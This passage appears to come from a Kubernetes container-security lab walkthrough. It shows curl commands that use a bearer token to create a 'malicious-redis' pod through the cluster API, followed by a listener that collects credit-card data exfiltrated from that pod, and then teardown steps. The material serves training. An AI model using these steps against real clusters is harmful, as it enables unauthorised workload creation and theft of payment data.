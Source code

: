 * Check if `mal-redis.json` has been created in '/tmp/'

```commandline
ls
```

* Create the `malicious-redis` pod

```commandline
curl -s https://10.96.0.1/api/v1/namespaces/default/pods -XPOST -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" -d@mal-redis.json --insecure
```

---

#### Step 10:

* Switch to the upper pane, navigate to the `K8s-Cluster-Attack` directory and setup the listener

> ###### Switch to the upper pane with `ctrl` + `b` and then `upper arrow key`

```commandline
cd /root/container-training/Kubernetes/K8s-Cluster-Attack
```
```commandline
python3 tornado_server.py
```

### *You should now see all the credit-card details being posted to the listener from the malicious redis pod*

---

#### *Teardown*:

* Stop the listener, pods and services that were created

> ###### Stop the listener
```commandline
crtl + c
```
```commandline
cd /root/container-training/Kubernetes/K8s-Cluster-Attack
```
```commandline
kubectl delete -f ngflask-redis-service.yml -f redis-service.yml -f ngflaskredis-deployment.yml
```

* Check if other `pods` or `configmaps` are on the cluster and delete them

```commandline
kubectl get pods
```
```commandline
kubectl delete pod mal-redis
```
```commandline
kubectl delete configmap nginx-config
```

* Exit from `tmux` sessions

```commandline
exit
```

---

### Reading Material/References:
